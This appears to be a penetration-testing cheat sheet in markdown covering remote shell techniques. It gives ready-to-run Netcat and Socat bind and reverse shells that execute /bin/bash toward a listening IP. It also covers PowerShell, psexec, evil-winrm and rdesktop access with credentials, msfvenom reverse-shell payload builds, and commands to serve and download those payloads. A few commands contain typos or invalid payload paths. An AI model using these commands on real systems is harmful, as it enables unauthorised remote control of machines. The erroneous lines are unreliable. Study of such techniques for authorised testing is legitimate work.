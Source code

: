 # Linux Shell Breakout 
* spawn a /bin/bash using Python
* https://docs.python.org/3/library/pty.html

```bash
python -c 'import pty;pty.spawn("/bin/bash")';
export TERM=xterm-256color
alias ll='clear ; ls -lasht --color=auto'
# CRTL + Z [backgroud process]
stty raw -echo; fg ; reset
stty column 200 rows 200
```

# Linux Shells

* Connect to a TCP/UDP port with Netcat
* Listen on a TCP/UDP port with Netcat
* Gain Remote Access to a host with Netcat
* Execute a Netcat bind shell
* Execute a Netcat reverse shell
* Netcat vs. Socat
* Socat reverse shells
* SSH shells


## Connect to a TCP/UDP port with Netcat
* -n don't do DNS resolution
* -v verbose

`nc -nv 10.11.0.22 110`

## Listen on a TCP/UDP port with Netcat
* -l start listener
* -p port

`nc -nlvp 4444`

## Execute a Netcat bind shell
* server bind a command shell on a specific port
* -e provide stdin, stout and stderr of a shell

`nc -nlvp 4444 -e cmd.exe`

## Execute a Netcat reverse shell
* client send a command shell to a **host listening on a port**.

```bash
nc -nlvp 4444
nc -nv host 4444 -e /bin/bash
```

## Netcat vs. Socat
* https://nc110.sourceforge.io/
* http://www.dest-unreach.org/socat/doc/socat.html
* -d verbosity
* **socat connect requires a '-' as first address**, 

```bash
echo "Socat Connect"
nc <remote> 80
socat - TCP4:<remote>:80
```

```bash
echo "Socat Listener"
sudo nc -lvp localhost 443
sudo socat TCP4-LISTEN:443 STDOUT
sudo socat TCP4-LISTEN:443 EXEC:/bin/bash
```

```bash
echo "Reverse Shell"
nc -nlvp 4444
nc -nv host 4444 -e /bin/bash
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

## SSH shells
* -p remote port
* -o stricthostkeychecking=no **avoid this option in real world**
* Online Wargame for beginners https://overthewire.org/wargames/bandit/
* Use the config which is read ~/.ssh/config before /etc/ssh/ssh_config
* https://linuxize.com/post/using-the-ssh-config-file/

ssh kali@localhost -p 22
ssh -o stricthostkeychecking=no webadmin@192.168.0.2 -p 2220

```bash
kali@kali:~/.ssh$ cat config
Host webadmin
        HostName webadmin@192.168.0.2
        User webadmin
        Port 22

kali@kali:~/.ssh$ ssh webadmin
```

# Windows Shells
* Remote shells with PowerShell
* Remote shells with psexec
* Remote shells with evil-winrm
* Remote shells with rdesktop

## Remote shells with PowerShell
* run powerShell as admin
* enable Enable-PSRemoting
* add IP to trustedhosts using wsman
* invoke a remote command or a remote shell
* https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/about/about_wsman_provider?view=powershell-7.2#setting-the-value-of-items-in-the--wsman-drive
* https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works

```powershell
Enable-PSRemoting
Set-Item wsman:\localhost\client\trustedhosts $IP
```

```powershell
Invoke-Command -ComputerName $IP -Credential $USER -ScriptBlock { systeminfo } 
Enter-PSSession -ComputerName $IP -Credential $USER
```

### Setup the local computer with a listener for any IP on HTTP
* Set-WSManQuickConfig: Configures the local computer for remote management. It starts a service opens the firewall.
* https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/about/about_ws-management_cmdlets?view=powershell-7.2

```powershell
Set-WSManQuickConfig
Test-WSMan 
```

## Remote shells with psexec
* download PSExec
* extract it to System32
* create a psexec interactive session -i
* https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

```powershell
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PSTools.zip"
Expand-Archive -Path .\PSTools.zip -DestinationPath C:\Windows\System32\
$RHOST="target IP"
psexec -accepteula
psexec "\\$ROST" -u user -p password -i cmd
psexec "\\$ROST" -u user -p password -i powershell
```

Remote shells with evil-winrm
* https://github.com/Hackplayers/evil-winrm
* -P, --port PORT                  default 5985
* -H, --hash HASH                  NTHash
* -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
* -e, --executables EXES_PATH      C# executables local path
* --spn SPN_PREFIX                 SPN prefix for Kerberos auth (default HTTP)


```bash
./evil-winrm.rb -i IP -u user -p password
```

## Remote shell with rdesktop
* Connect remote desktop from linux

```bash
rdesktop -u user -p password $RHOST
```

# Custom Shell using MSFvenom
* https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom
* https://www.offsec.com/metasploit-unleashed/msfvenom/
* staged payloads require Metasploit framework 
* let's use stageless payload instead
* -p use payload
* -f use format
* -a use arch
* -o output
* https://github.com/rsmudge/metasploit-loader/blob/master/src/main.c


```bash
msfvenom -h
msfvenom --list payloads
msfvenom -l platforms
msfvenom -l formats
msfvenom --platform linux -l payloads | grep x86
msfvenom --platform windows -l payloads | grep x64
```

```bash
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f elf -o reverse_shell.elf
msfvenom -p linux/x86/windows/shell_reverse_tcp --list-options
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o reverse_shell.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o reverse_shell.exe
```

## Download Shell
```bash
sudo python -m http.server 80
```
```bash
$ wget wget http://IP/reverse_shell.elf
```
```powershell
PS> Invoke-WebRequest -Uri http://IP/reverse_shell.exe -OutFile reverse_shell.exe
```

